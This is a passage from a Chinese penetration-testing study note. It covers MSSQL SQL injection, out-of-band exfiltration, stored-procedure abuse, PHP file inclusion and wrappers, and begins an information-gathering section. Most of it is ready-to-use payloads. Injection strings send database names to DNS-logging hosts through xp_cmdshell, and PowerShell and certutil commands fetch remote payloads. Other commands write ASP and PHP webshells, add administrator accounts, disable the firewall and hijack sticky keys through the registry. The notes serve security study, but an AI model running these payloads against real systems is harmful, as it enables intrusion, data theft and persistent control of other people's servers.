	//@@version为mssql的全局变量，强制它转化为数字型进行比较，必然报错，进而暴露出数据库信息
4. 获取当前数据库
	id=1 and db_name()>0 --+
    id=1 and 1=db_name() --+
5. 判断当前服务器角色是否拥有比较高的权限
	id=1 and 1=(select is_srvrolemember('sysadmin')) --+	//判断是否为sysadmin权限
	...		//判断其他权限
	...	
6. 判断当前数据库角色是否为DB_OWNER
	id=1 and 1=(select is_member('db_owner')) --+	 	//判断是否为db_owner权限
7. 获取当前用户名字
	id=1 and user_name()>0 --+
8. 获取所有数据库名 
	id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+
9. 获取数据库的个数
	id=1 and 1=(select quotename(count(name) from master.sys.dbo.databases)) --+
10. 一次性获取所有数据库
	id=1 and 1=(select quotename(name) from master.sys.dbo.databases FOR XML PATH('')) --+
11. 获取第一个表名
	id=1 and 1=(select top 1 table_name from information_schema.tables) --+
12. 获取其他表名
	id=1 and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top m table_name from information_schema.tables)) --+		//m为第几个表
		or
	id=1 and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) -+
13. 获取当前字段名
	id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users') --+
14. 获取所有字段名
	id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users' and columns_name not in('id','username','password')) --+		//后面跟表的字段
		or
    id=1 and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+
15. 获取数据
	id=1 and 1=(select password from users where id=1) --+
		or
    id=1 and 1=(select quotename(username),quotename(password) from users FOR XML PATH('')) --+
16. 其他函数注入
	id=1 and 1=(select cast(name as int) from sys.databases where database_id=1) --+
		or
    id=1 and 1=(select convert(int,name) from sys.databases where database_id=1) --+
```

#### (3). 布尔盲注

* 用法和mysql类似，**使用ascii和substring比对**

```
1. 获取数据库名
	id=1 and (ascii(substring((select top 1 name from sys.sysdatabases),n,1),1,1)=m)  --+	//n表示第几个字符，m表示ascii范围
```

#### (4). 时间盲注

* 使用**WAITFOR DELAY '0:0:5'**

```
id=1 if(ascii(substring((select top 1 name from sys.sysdatabases),n,1 ))=m) waitfor delay 0:0:5 --+	//n表示第几个字符，m表示ascii范围

1. 数据库名长度
	id=1' and len((select top 1 name from master.sys.databases where name not in(select top 1 name from master.sys.databases))) =6 --+
2. 暴力破解数据库名
	id=1' if(ascii(substring((select top 1 name from master.sys.databases where name not in(select top 1 name from master.sys.databases)),1,1)) = 116) waitfor delay '0:0:5' --+

```

##### e. 数据外带

###### ①常用平台

dnslog.cn、ceye.io、burpsuite collobrator

###### ②原理

* 利用**xp_cmdshell**扩展存储过程指定ping dnslog平台命令带出数据
* 利用**xp_subdirs**、**xp_dirtree**、**xp_fileexist**使用**unc路径**判断文件发起请求带出数据

###### ③DNS数据外带

1. 实例

```
declare @a varchar(8000);
set @a=db_name();		//将sql语句绑定到变量上
exec('master..xp_cmdshell "ping.exe '+@a+'.Laffrex.eyes.sh -n 1"') --+
	or
exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

2. 方式

   1. **存在堆叠注入数据外带**

   2. mysql堆叠注入函数mysqli_multi_query()

   3. Mssql数据外带利用扩展存储过程：

      * xp_cmdshell执行系统命令

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
        ```

      * xp_subdirs查看路径下的目录

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_subdirs "//''%2b@a%2b''.Laffrex.eyes.sh\\a"') --+
        ```

      * xp_dirtree查询路径下所有文件和目录

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_dirtree "//''%2b@a%2b''.Laffrex.eyes.sh\\a"') --+
        ```

      * xp_fileexist判断路径是否存在

        ```
        id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_fileexist "//''%2b@a%2b''.Laffrex.eyes.sh\\a"') --+
        ```

###### ④HTTP数据外带

* 存在堆叠注入数据外带

  ```
  id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(newobject net.webclient).downloadstring(''http://192.168.71.12:8888?data='%2b@a%2b''')"') --+
  ```

###### ⑤SMB数据外带

* 存在堆叠注入数据外带

* 利用**xp_subdirs、xp_dirtree、xp_fileexist**使用**unc**路径来判断文件发起请求带出数据

  ```
  id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs"//''%2b''192.168.71.100\\''%2b@a%2b''.txt"') --+
  ```

  **Linux执行命令查看记录**

  ```
  tail -f /var/log/samba/log.smbd | grep "failed"
  ```

###### ⑥不存在堆叠注入时数据外带

* 利用**fn_xe_file_target_read_file**、**fn_get_audit_file**、**fn_trace_gettable**，使用**unc路径**来判断文件发起请求带出数据

```
id=1' and exists(select * from fn_xe_file_target_read_file('C:*.xls','\\'+(select user)+'Laffrex.eyes.sh\1.txt',null,null)) --+
	 or
id=1' and exists(select * from fn_get_audit_file('\\'%2b(select db_name())%2b'.Laffrex.eyes.sh\123.txt,default,default)) --+
	or
id=1' and exists(select * from fn_trace_gettable('\\'%2b(select db_name())%2b'.Laffrex.eyes.sh\1.txt,default)) --+
	or
id=1' and exists(select * from fn_get_audit_file('\\192.168.172.130\'%2b(select db_name())%2b'.txt',default,default )) --+
```


### 5. 存储过程

#### (1). 含义

* 一组为了完成特定功能的**SQL语句集合**，经编译后存储在数据库中，用户通过**指定存储过程的名称**并**给出参数**来执行
* 存储过程包括逻辑控制语句和数据操控语句，可以**接受参数**、**输出参数**、返回**单个或多个结果集**以及返回值。

#### (2). 分类

1. **系统存储过程**
2. 本地存储过程
3. **扩展存储过程**
4. 远程存储过程
5. 临时存储过程

#### (3). 系统存储过程

* 以sp_开头(Stored Procedure)

##### a. 存储过程

```
sp_oacreate、sp_oamethod
```

##### b. 利用条件

1. 已获取到**sqlserver sysadmin权限用户**的账号与密码、且**未降权**(2019版本sa用户权限为mssqlserver)
2. sqlserver**允许远程连接**
3. 已**开启sp_oacreate**
4. **OLE Automation Proccedures**选项开启

##### c. 特点

1. sp_oacreate是创建OLE对象的**实例**

   * sp_oacreate可以用于**对文件删除、复制、移动**等操作，可配合sp_oamethod调用系统**wscript.shell**来执行系统命令

     ```mssql
     语法
     	EXEC sp_OACreate @ProgID(@CLSID), @Object OUTPUT;
     ```

2. sp_oamethod是一个调用OLE对象的**方法**

   * 与sp_oacreate结合使用，分别用于**创建**和**执行脚本语言**

     ```mssql
     语法：
     	EXEC sp_OAMethod @Object, @MethodName, @ReturnValue OUTPUT, [@Parameter1, @Parameter2, ...];
     ```

3. 组合sp_oacreate、sp_oamethod可执行命令，但**无回显**

##### d. 步骤

1. 启用sp_oacreate

   ```mssql
   EXEC sp_configure 'show advanced options',1;
   RECONFIGURE WITH OVERRIDE;
   EXEC sp_configure 'Ole Automation Procedures',1;
   RECONFIGURE WITH OVERRIDE;
   ```

2. 执行系统命令

   ```mssql
   declare @shell int EXEC sp_oacreate 'wscript.shell',@shell output EXEC sp_oamethod @shell,'run','null','c:\windows\system32\cmd.exe /c whoami > c:\\1.txt' 
   	拆分如下：
   declare @shell int 		//定义变量shell
   EXEC sp_oacreate 'wscript.shell',@shell output 		//创建一个 WScript.Shell对象，并将其句柄赋值给变量shell
   EXEC sp_oamethod @shell,'c:\windows\system32\cmd.exe /c whoami > c:\\1.txt' //通过shell来执行系统命令
   ```

3. 写入Webshell

   ```mssql
   declare @o int,@f int,@ret int
   EXEC sp_oacreate 'scripting.filesystemobject', @o out
   EXEC sp_oamethod @o,'createtextfile',@f out,'c:\inetpub\wwwroot\shell.asp',1
   EXEC @ret=sp_oamethod @f,'writeline',NULL,'<%25execute(request("cmd"))%25>'
   ```

4. 利用com组件执行命令

   ```mssql
   declare @luan int,@exec int,@text int,@str varchar(8000);
   EXEC sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;	//该句柄对应Wscript.Shell
   EXEC sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';
   EXEC sp_oamethod @exec,'stdOut',@text out;
   EXEC sp_oamethod @test,'readall',@str out;
   select @str;
   ```

##### e. 利用工具

1. SharpSQLTools

   * 可实现上传、下载文件，**xp_cmdshell与sp_oacreate双回显**和clr加载程序集执行相应功能

   ```
   SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master enable_ole
   SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master sp_oacreate whoami
   ```

#### (4). 本地存储过程

* 指用户创建的自定义存储过程，如**CLR**(Common Language Infrastructure,公共语言基础结构),用来支持不同编程语言
* 直接本地新建存储过程相对复杂，故直接**利用工具SharpSQLTools**进行实现

```
SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master install-clr
SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master enable_clr
SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafe666[password] master clr_efspotato whoami
```

#### (5). 扩展存储过程

* 扩展存储过程以xp_开头，主要使用外部程序语言编写的存储过程
* 如xp_cmdshell执行系统命令、xp_subdirs读取文件夹内的文件夹列表

##### a. xp_cmdshell

* xp_cmdshell存储过程可以执行系统命令，默认支持输出执行结果

###### ①前提条件

1. 当前用户拥有DBA权限

2. 依赖于xplog70.dll

3. 存储过程存在并已启用

* 2005版本以后默认禁用，可使用sp_configure来启用


```mssql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
```

###### ②利用

1. 步骤

   ```mssql
   1. 判断是否为DBA权限
   	select is_srvrolemember('sysadmin');	
   2. 查看是否存在xp_cmdshell
   	select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'	
   3. 开启xp_cmdshell
       EXEC sp_configure 'show advanced options',1;
       RECONFIGURE WITH OVERRIDE;	
       EXEC sp_configure 'xp_cmdshell',1;
       RECONFIGURE WITH OVERRIDE;
   4. 关闭xp_cmdshell
   	EXEC sp_configure 'show advanced options',1;
       RECONFIGURE WITH OVERRIDE;	
       EXEC sp_configure 'xp_cmdshell',0;
       RECONFIGURE WITH OVERRIDE;
   ```

2. SQL注入+xp_cmdshell

   ```
   1. 查看是否禁用xp_cmdshell
       id=0' union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+
       id=1' and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell') --+
   2. 开启xp_cmdshell
   	id=0';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+
   3. 测试是否成功
   	id=1';EXEC master.sys.xp_cmdshell 'ping -n 1 Laffrex.eyes.sh' --+
   4. 执行命令
   	id=1';EXEC master.sys.xp_cmdshell 'whoami > c:\inetpub\wwwroot\1.txt' --+
   	id=1';EXEC master.sys.xp_cmdshell 'REG ADD HELM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+
   	id=1';EXEC master.sys.xp_cmdshell 'netsh firewall set opmode disable' --+
   	id=1';EXEC master.sys.xp_cmdshell 'net user admin 1qaz!QAZ /add' --+
   	id=1';EXEC master.sys.xp_cmdshell 'net localgroup administrators admin /add' --+
   ```

###### ③杂项

```
1. 查询web根目录路径
	EXEC master..xp_cmdshell 'where /r c:\*.asp'
2. 利用xp_cmdshell写Webshell	//找绝对路径可以where命令和其他扩展存储过程组合利用
	EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\intepub\wwwroot\shell.asp'	//Windows的转义符为^，Linux的转义符为 \
3. xp_cmdshell扩展利用
	a. 利用xp_cmdshell开启3389端口
		id=1';EXEC master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+	
    b. 写入web根目录或反弹shell
		id=1';EXEC master..xp_cmdshell 'systeminfo > c:\inetpub\wwwroot\systeminfo.txt' --+	
    c. 写入webshell
    	idd=1';EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpubwwwroot\shell.asp'
    d. cmdshell执行powershell命令上线CS
    	id=1';EXEC master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.150:9090/payload64.txt c:\\inetpub\\wwwroot\\payload1.bat' --+
    	id=1';EXEC master..xp_cmdshell 'c:\\inetpub\\wwwroot\\payload1.bat' --+
    d. SharpSQLTools利用xp_cmdshell
    	SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafr666[password] master enable_xp_cmdshell
    	SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafr666[password] master xp_cmdshell whoami
```

###### ④添加与删除

```mssql
1. 删除xp_cmdshell扩展存储过程
	EXEC sp_dropextendedproc 'xp_cmdshell'
2. 重新添加xp_cmdshell扩展存储过程
	EXEC sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
	sp_addextendedproc 'xp_cmdshell','xpsql70.dll';
3. 彻底删除xp_cmdshell扩展存储过程
	在C盘里直接搜索xplog70.dll，然后删除xp_cmdshell
```

##### b. xp_subdirs

* 读取文件夹内的文件夹列表等

###### ①利用

```mssql
1. 得到给定文件夹内的文件夹列表
	EXEC master..xp_subdirs 'c:\';
```

##### c. xp_dirtree

* 显示当前目录的子目录，**有3个参数**

###### ①参数作用

```mssql
EXEC master..xp_dirtree 'c:\inetpub\wwwroot\',1,1;
    -directory	
        要查询的目录
    -depth
        显示的子目录的深度
    -file
        是否显示子目录中的文件，默认为0，即不显示任何文件，只显示子目录
```

###### ②利用

```mssql
1. 显示C盘所有文件和目录
 	EXEC master..xp_dirtree 'c:\';
2. 显示C盘所有目录
    EXEC master..xp_dirtree 'c:\',1;
3. 显示指定目录下的目录和文件
    EXEC master..xp_dirtree 'C:\inetpub\',1,1;
```

##### d. xp_create_subdir

* 用于创建子目录

```mssql
1. 在C盘下创建test文件夹
	EXEC master..xp_create_subdir 'c:\test';
```

##### e. xp_fileexist

* 判断文件是否存在，返回一行数据，有3个字段(是否为**文件**，是否为**目录**，是否有**父目录**)

```mssql
EXEC master..xp_fileexist 'c:\windows\win.ini';
```

##### f. xp_regwrite

* 用于对注册表进行修改，替换成任意值，造成映像劫持

###### ①前提条件

1. 未禁止注册表编辑(即写入功能)

2. xp_regwrite启用

   1. 查看是否启用

      ```
      select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite'
      ```

   2. 启用

      ```mssql
      EXEC sp_configure 'show advanced options',1
      RECONFIGURE
      EXEC sp_configure 'xp_regwrite',1
      RECONFIGURE
      ```

###### ②结构

```cmd
'HKEY_USERS'EXEC xp_regwrite
    [@rootkey =] 'rootkey',  
    [@key =] 'key',  
    [@value_name =] 'value_name',  
    [@type =] 'type',  
    [@value =] 'value';
```

1. @rootkey(注册表的根键)

   * `'HKEY_LOCAL_MACHINE'`（本地计算机配置）

   * `'HKEY_CURRENT_USER'`（当前用户配置）
   * ``'HKEY_CLASSES_ROOT''HKEY_USERS'``
   * ``'HKEY_USERS''HKEY_USERS'``

2. @key(指定完整的注册表项路径

   * 类型: **字符串**

   * 示例: `'SOFTWARE\MySoftware'` 或 `'SYSTEM\CurrentControlSet\Services'`

3. @value_name(要写入的注册表名称)

4. @type(注册表的类型)

   * `'REG_SZ'`（字符串类型）

   * `'REG_DWORD'`（32 位整数）

   * `'REG_BINARY'`（二进制数据）

   * `'REG_EXPAND_SZ'`（可扩展字符串）

   * `'REG_MULTI_SZ'`（多字符串）

5. @value(要写入的值)

###### ③利用

```mssql
1. 将粘滞键启动结果替换成cmd命令窗口启动
	EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\Sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
2. 开启3389端口
	EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
EXEC master..xp_cmdshell 'REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' 
```

##### g. xp_regread

* 对注册表进行读取

  ```mssql
  1. 读取注册查看是否修改成功
  EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'
  ```

  

#### (6). Getshell

##### a. 条件

1. web路径已知
2. sa或DBA权限(db_owner权限)

##### b. 方法

* 涉及到**xp_cmdshell、xp_dirtree、xp_subdirs、xp_regread**存储过程

###### ①利用存储过程写shell

1. xp_cmdshell

   ```mssql
   EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp';
   ```

2. sp_oacreate

   ```mssql
   declare @o int,@f int,@t int,@ret int
   EXEC sp_oacreate 'scripting.filesystemobject',@o OUT
   EXEC sp_oamethod @o,'createtextfile',@f OUT,'c:\inetpub\wwwroot\shell.asp',1
   EXEC @ret=sp_oamethod @f,'writeline',NULL,'^<%execute(request("cmd"))%^>'
   ```

3. 本地存储过程CLR

   ```
   直接利用sharpSQLTools执行命令写shell进行利用
   ```

###### ②log备份写shell

1. 优点

   1. 重复性好，多次备份的成功率高
   2. 相对于差异备份而言，shell的体积小

2. 利用条件

   1. 至少DBA权限，默认SA满足
   2. 知道绝对路径且目录可写
   3. 站库不分离，数据库和网站在同一台服务器
   4. 数据库必须被备份过一次

3. 操作

   

###### ③差异备份写shell

1. 特点

   1. 容错率较差，条件相对苛刻

2. 利用条件

   1. 至少DBA权限
   2. 知道绝对路径且目录可写
   3. HTTP 500错误不是自定义
   4. 站库不分离，数据库中不能存在%
   5. 数据量不能太大

3. 操作

   

## 七、文件包含

### 	1. 文件包含

#### (1). 概述

##### a. 概述

* 开发人员通常会把**可重复使用的函数**写到单个文件中，在使用某个函数时，**直接调用此文件**，无需再次编写。这种调用文件的过程通常称为包含

###### ① 原因

* 为了代码更灵活，通常会把包含文件的**路径参数设置为变量**，进行**动态调用**，从而导致客户端可以**调用任意文件**

###### ② 解析

* PHP语言**更不规范**，容易出现文件包含漏洞，其他语言**则比较少**，甚至没有，只因为**语言设计的规范性**

###### ③相关函数

**include()、include_once()、require()、require_once()**、highlight_file()、show_source()、readfile()、file_get_contents()、fopen()、file()


##### b. 经典代码

```php
<?php
	$filename = $_GET['filename'];
	include $filename;
?>
```

* `$`filename**未经过严格过滤**，则会导致攻击者可以**加载其他文件**，从而导致文件包含漏洞

##### c. 防御

1. 严格判断包含中的参数是否外部可控
2. **路径限制**
3. 包含文件**验证**
4. 尽量不要使用动态包含，可以在需要包含的页面固定写好
5. php中可以使用**open_basedir配置**来限制访问
6. 过滤`.`、`\`、`/`等路径字符
7. 禁止服务器远程文件包含

#### (2). 分类及配置

##### a. 配置

* **allow_url_fopen**=On/Off：是否允许打开URL文件，**默认开启**
* **allow_url_include**=On/Off：是否允许引用URL文件，激活URL形式的fopen封装协议使得可以访问URL对象文件，**默认关闭**

##### b. 本地包含(LFI)

* 指的是通过**相对路径/绝对路径**的方式**打开并包含**本地文件的漏洞

###### ①条件

1. allow_url_fopen= **On** ,**本地文件包含不受其影响**
2. 用户可以**动态控制变量**

###### ②经典代码

```php
<?php
	$filename=$_GET['filename'];
	include $filename;
?>
```

###### ③利用

1. 绝对路径读取本地host文件

   1. Windows

      ```
      C:\\Windows\System32\drivers\etc\hosts
      ```

   2. Linux

      ```
      /etc/hosts
      ```

2. 相对路径读取本地host文件

   1. Windows

      ```
      ..\..\..\..\Windows\System32\drivers\etc\hosts
      ```

   2. Linux

      ```
      ..\..\..\etc\hosts
      ```

3. 包含图片木马

   * 利用文件包含漏洞直接包含木马图片

     ```php
     /action.php?action=./muma.jpg
     ```

###### ④绕过

* 代码形式(自带拼接后缀)

```php
<?php
	$filename=$_GET['filename'];
	include $filename.'.php';
?>
```

1. %00截断

   1. 满足条件

      * magic_quotes_gpc = Off
      * php版本 < 5.3.4

   2. 形式

      ```php
      /action.php?action=phpinfo.php%00
      ```

2. 路径长度截断

   1. 满足条件

      * Windows下要长于**198字符**，超出部分会被丢弃
      * **php < 5.3.4**
      * 操作系统版本要是**低版本(例如Win7)**

   2. 形式

      ```
      /action.php?action=phpinfo.php/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
      ```

3. 点号截断

   1. 满足条件

      * Windows下要长于**198字符**，超出部分会被丢弃
      * **php < 5.3.4**
      * 操作系统版本要是**低版本(例如Win7)**

   2. 形式

      ```
      /action.php?action=phpinfo.php.....................................................................................................................................................................................................................................................
      ```

##### c. 远程包含(RFI)

* 能够**包含远程服务器上的文件并执行**，可以通过http(s)、ftp等方式，远程加载文件

###### ①条件

1. **allow_url_include = On**		(默认为Off)
2. allow_url_fopen = On   (是否允许打开远程文件)
3. 用户可以**动态控制变量**

###### ②例子

```php
[URL]?file= http://ip/info.php		//通过http协议加载目标机中的info.php文件
[URL]?file= ftp://用户名:密码@ip/info.php	//通过ftp协议加载目标机中的info.php文件
```


###### ③绕过

1. 问号(``?``)绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp?
   ```

2. 井号(``#``)绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp%23
   ```

3. 空格绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp%20
   	or
   [URL]?file=http://192.168.172.150/shell.asp+
   ```

#### (3). 漏洞利用

1. 端口探测

   ```php
   url=dict://ip:80
   [URL]?action=dict://192.168.41.46:80	//探测80端口
   ```

2. 包含上传的Getshell

   * 上传图片马，利用文件包含调用图片马，使用工具进行连接

3. 包含日志文件Getshell

   * **构造报错信息写进错误日志**

4. 远程文件包含写Shell

   ```php
   <?php
   	fputs(fopen('shell.php','w'),'<?php eval($_POST['cmd']);?>');    
   ?>
   ```

5. 使用**PHP伪协议**写Getshell

#### (4). 伪协议

* PHP伪协议事实上就是**支持的协议**与**封装协议**

  | 伪协议  | 说明                |
  | ------- | ------------------- |
  | file:// | 访问本地文件系统    |
  | http:// | 访问HTTP(s)网址     |
  | ftp://  | 访问FTP(s)的URLS    |
  | php://  | 访问各个输入/输入流 |
  | zlib:// | 压缩流              |
  | data:// | 数据(RFC2397)       |
  | rar://  | RAR                 |

##### a. file://协议

1. 用途

   * 访问到**本地系统文件**

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**绝对路径**

3. 使用方法

   ```
   file://path/filename	(绝对路径)
   ```

4. 案例

   ```php
   [URL]?action=file://c:\Windows\System32\drivers\etc\hosts
   ```


##### b. php://filter协议

1. 用途

   * 常用于**读取文件\源码**

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**相对路径或绝对路径**

3. 使用方法

   * 通过指定末尾的文件，可以获取**经base64加密后的文件源码**，之后再base64解码，虽然不能直接获取到shell，但能**读取敏感文件**

   ```php
   [URL]?action=php://filter/read=convert.base64-encode/resource=4filename
   ```

4. 案例

   ```php
   [URL]?action=php://filter/read=convert.base64-encode/resource=shell.php
   ```

   


##### c. php://input协议

1. 用途

   * 可以访问请求的**原始数据的只读流**，将**post请求中的数据作为PHP代码执行**

2. 使用条件

   * allow_url_fopen = on/off
   * **allow_url_include = on**

3. 使用方法

   ```
   1. 抓包后，在url栏后面加上?action=php://input
   2. 在正文部分添加php代码
   ```

4. 案例

   

   

##### d. data://协议

1. 用途

   * 执行**接受数据中**包含的**php代码**

2. 使用条件

   * **allow_url_fopen = on**
   * **allow_url_include = on**

3. 使用方法

   ```php
   [URL]?file=data:text/plain,<?php phpinfo();?>
   	or
   [URL]?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=	//base64加密后内容
       or
   [URL]?file=data://text/plain,<?php phpinfo();?>
   ```

4. 案例

   

   

   

##### e. zip://协议

1. 用途

   * 读取**压缩包**内的文件，如果**包含php代码就直接执行**

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**相对路径或绝对路径**

3. 使用方法

   ```php
   zip://archive.zip#dir/file.txt
   	or
   zip://[相对路径/绝对路径]#[压缩文件内的子文件名]
   ```

4. 案例

   ```php
   [URL]?file=zip://D:/WWW/file.zip%23phpcode.txt
   	or
   [URL]?file=zip://D:/WWW/file.zip%23php/phpcode.txt
       or
   [URl]?file=zip://D:/WWW/file.jpg%23phpcode.txt
   ```


##### f. phar://协议

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   * allow_url_fopen = off
   * allow_url_include = off
   * 知道**相对路径或绝对路径**
   * php版本 > 5.3

3. 使用方法

   ```php
   [URL]?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
   	or
   [URL]?file=phar://test.zip/phpinfo.txt
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=phar://shell.zip/shell.txt
   ```

##### g. compress.bzip2:// 

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**相对路径或绝对路径**

3. 使用方法

   * 压缩bzip2文件的方法：

     **Bzip2 -k shell.txt**

   ```php
   [URL]?file=compress.bzip2://shell.txt.bz2
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=compress.bzip2://shell.txt.bz2
   ```


##### h. compress.zlib://

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**相对路径或绝对路径**

3. 使用方法

   ```php
   [URL]?file=compress.zlib://shell.zip#shell.txt
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=compress.zlib://shell.zip#shell.txt
   ```





## 八、信息收集

### 1. 概述

#### (1). 含义

* 信息收集是指**通过各种方式获取所需要的信息**，以便我们在后续的渗透过程中更好地进行。

#### (2). 方式

##### a. 主动收集

* 与目标主机**直接交互**，从而拿到目标信息，缺点是会记录自己的操作信息。

##### b. 被动收集

* 不与目标主机进行直接交互，通过**搜索引擎或者社会工程**等方式**间接地**获取目标主机的信息。

#### (3). 内容

1. 服务器的配置信息
2. 网站的信息
   * 网站**注册人**
   * 目标**网站系统**
   * 目标**服务器系统**
   * 目标网站相关**子域名**
   * 目标服务器的**开放端口**
3. 只要与目标网站相关联的信息，都应该尽量去收集


#### (4). 渗透流程

1. **获取渗透测试授权书**
2. **信息收集**
3. 漏洞挖掘
4. 入侵攻击
5. 权限提升
6. 权限维持
7. 横向移动
8. **痕迹清理**
9. 输出报告

#### (5). 收集信息

* whois信息、子域名、目标IP、旁站C段查询、邮箱搜集、CMS类型、敏感目录、端口信息、服务器与中间件信息


### 2. Google Hacking

* 利用谷歌搜索的强大，可以搜出不想被看到的后台、泄露的信息、未授权访问，甚至还有一些网站配置密码和网站漏洞等

#### (1). 语法

##### a. site

* 找到与指定网站**有联系**的url

* ```
  site:baidu.com
  ```

##### b.inurl/allinurl

* 返回**url**中含有关键词的网页，或指定**多个关键词**

* ```
  inurl:login
  (inurl:login|index)
  
  allinurl:login admin
  inurl:login admin
  ```

##### c. intext/allintext

* 寻找**正文**中含有关键字的网页，或指定正文中的**多个关键字**

* ```
  intext:登录    
  intext:"登录"
  
  allintext:后台 登录 公司
  allintext:"后台" "登录" "公司"
  ```

##### d. intitle/allintitle

* 寻找**标题**中含有的关键字的网页，或指定标题**多个关键字**

* ```
  intitle:后台登录
  intitle:"后台登录"
  
  allintitle:中国 后台 登录
  allintitle:"中国" "后台" "登录"
  ```

##### e.filetype

* 指定访问的**文件类型**

